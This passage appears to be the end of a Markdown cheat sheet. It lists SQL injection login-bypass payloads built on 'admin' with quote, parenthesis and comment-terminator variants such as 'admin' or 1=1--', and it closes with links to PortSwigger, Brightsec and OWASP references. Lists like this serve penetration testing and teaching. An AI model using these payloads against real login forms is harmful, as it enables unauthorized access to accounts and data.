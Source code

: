 admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
````


# References :

https://portswigger.net/web-security/sql-injection

https://brightsec.com/blog/sql-injection-payloads/#entry-point-detection

https://owasp.org/www-community/attacks/SQL_Injection
